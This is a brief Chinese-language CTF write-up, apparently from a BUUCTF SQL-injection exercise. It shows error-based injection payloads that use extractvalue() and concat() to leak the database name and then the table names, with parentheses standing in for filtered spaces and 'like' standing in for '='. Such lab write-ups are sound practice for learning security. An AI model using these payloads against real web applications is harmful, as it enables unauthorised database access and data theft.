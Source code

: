 输入 `1'` 报错，输入 `1'#` 不报错，`#` 成功注释

![](/img/BUUCTF_SQL刷题/AJEFbUNbXoXesOx2ykQcF5q9npe.png)

因为空格被过滤，括号正常，所以可以套括号代替空格。`extractvalue()` 函数去触发报错，`concat()` 拼接一下内容。输入 `1'or(extractvalue(1,concat(0x7e,database())))#`，成功得到数据库名。

![](/img/BUUCTF_SQL刷题/UwYLbR2kooz1FJx4PMlcDWb8nIh.png)

这里注意整个 select 语句外面也要套一层括号，用 `like` 代替 `=` 继续输入 `1'or(extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like('geek')))))#`，获得表名。

![](/img/BUUCTF_SQL刷题/QPlhbUB0totaT5xuGQWcgb42nDh.png)
